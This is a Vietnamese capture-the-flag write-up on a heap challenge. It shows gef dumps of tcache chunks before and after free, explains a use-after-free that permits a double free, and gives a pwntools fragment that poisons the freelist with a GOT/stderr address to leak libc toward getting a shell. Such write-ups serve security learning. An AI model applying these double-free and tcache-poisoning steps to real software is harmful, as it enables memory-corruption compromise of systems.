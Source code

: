 ```java
gef➤  heap chunks <--- trước khi free
Chunk(addr=0x405010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000405010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000004052a0     c3 41 41 41 41 41 41 41 41 41 41 0a 00 00 00 00    .AAAAAAAAAA.....]
Chunk(addr=0x4052c0, size=0x20d50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
...
gef➤  heap chunks <--- sau khi free
Chunk(addr=0x405010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000000000405010     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000004052a0     00 00 00 00 00 00 00 00 10 50 40 00 00 00 00 00    .........P@.....]
Chunk(addr=0x4052c0, size=0x20d50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
gef➤  heap bins
───────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ─────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=1] ←  Chunk(addr=0x4052a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
Ta quan sát phía trên: khi đã được free, chunk k hề biến mất mà bên trong phần header của chunk vừa được giải phóng xuất hiện các byte lạ, nếu để ý kỹ hơn thì ta thấy đó chính là địa chỉ của chunk phía trên.

![chunks](chunks.png)

Khi một chunks được giải phóng, vị trí user data sẽ trở thành vị trí lưu trữ cho 2 con trỏ Fd và Bk (cả 2 đều có độ lớn là 8 byte). Trong trường hợp của mình heap manager sẽ quản lý các vùng đã giải phóng bằng con trỏ Bk. Sau khi free nó sẽ bảo vệ khỏi lỗi bằng cách kiểm tra Bk có nằm trong chunks hay không, nếu không thì nó sẽ cho ta free.

Thêm nữa, option 2 của mình là lỗi use after free khi nó có thể sửa đổi nội dung bên trong chunk bất kể nó đã free hay chưa. Ta tận dụng lỗi này để thay đổi Bk trong chunk đã giải phóng rồi double free.

Chall này không có hàm win để nhảy vào nên bắt buộc ta phải tạo được shell. Trước tiên phải leak được libc để gọi tới được system. Mình sẽ dùng option 2 ghi địa chỉ got của vùng nào đấy rồi dùng option 4 để in nó ra

```python
p.sendlineafter(b'>', b"1")
p.sendlineafter(b'Size: ', b'20')
p.sendafter(b'Content: ', b"A"*20)

p.sendlineafter(b'>', b"3")

p.sendlineafter(b'>', b"2")
p.sendafter(b'Content: ', b'\0'*16)

p.sendlineafter(b'>', b"3")

p.sendlineafter(b'>', b"2")
p.sendafter(b'Content: ', p64(exe.sym['stderr']))
```
Ta sẽ double free và ghi địa chỉ got của puts vào và đọc nó ra
